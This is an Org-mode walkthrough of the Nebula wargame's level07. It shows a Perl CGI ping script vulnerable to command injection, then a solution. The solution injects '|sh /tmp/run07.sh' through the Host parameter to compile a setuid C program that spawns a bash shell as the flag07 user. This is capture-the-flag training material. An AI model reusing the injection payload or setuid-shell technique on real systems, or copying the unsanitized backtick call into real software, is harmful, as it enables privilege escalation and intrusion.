 * Level07
  :PROPERTIES:
  :CUSTOM_ID: level07
  :END:
** Task
   :PROPERTIES:
   :CUSTOM_ID: task
   :END:

#+begin_quote
  The flag07 user was writing their very first perl program that allowed
  them to ping hosts to see if they were reachable from the web server.
#+end_quote

#+begin_quote
  To do this level, log in as the level07 account with the password
  level07. Files for this level can be found in /home/flag07.
#+end_quote

#+begin_src perl
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");
  
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
#+end_src

** Solution
   :PROPERTIES:
   :CUSTOM_ID: solution
   :END:
There is a webserver on port 7007

#+begin_example
level07@nebula:/home/flag07$ cat thttpd.conf | grep port
# Specifies an alternate port number to listen on.
port=7007
#+end_example

using the same exploit from a previous level

#+begin_src C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/bin/bash");
}
#+end_src

and a bash script to compile it

#+begin_example
#!/bin/bash

gcc /tmp/shell.c -o /home/flag07/shell
chmod +s /home/flag07/shell
#+end_example

Use the webserver to run as =flag07= user

#+begin_example
level07@nebula:/home/flag07$ cd
level07@nebula:~$ wget 'http://localhost:7007/index.cgi?Host=127.0.0.1|sh /tmp/run07.sh'
--2017-01-09 02:33:24--  http://localhost:7007/index.cgi?Host=127.0.0.1%7Csh%20/tmp/run07.sh
Resolving localhost... 127.0.0.1
Connecting to localhost|127.0.0.1|:7007... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: `index.cgi?Host=127.0.0.1|sh %2Ftmp%2Frun07.sh'

    [  <=>                                                                         ] 77          76.9B/s   in 1.0s

2017-01-09 02:33:25 (76.9 B/s) - `index.cgi?Host=127.0.0.1|sh %2Ftmp%2Frun07.sh' saved [77]
#+end_example

Then look for our new shell binary

#+begin_example
level07@nebula:/home/flag07$ ls -la
total 18
drwxr-x--- 1 flag07 level07   60 2017-01-09 02:33 .
drwxr-xr-x 1 root   root     300 2012-08-27 07:18 ..
-rw-r--r-- 1 flag07 flag07   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag07 flag07  3353 2011-05-18 02:54 .bashrc
-rwxr-xr-x 1 root   root     368 2011-11-20 21:22 index.cgi
-rw-r--r-- 1 flag07 flag07   675 2011-05-18 02:54 .profile
-rwsr-sr-x 1 flag07 flag07  7321 2017-01-09 02:33 shell
-rw-r--r-- 1 root   root    3719 2011-11-20 21:22 thttpd.conf
#+end_example

Get the Flag

#+begin_example
level07@nebula:/home/flag07$ ./shell
flag07@nebula:/home/flag07$ getflag
You have successfully executed getflag on a target account
#+end_example
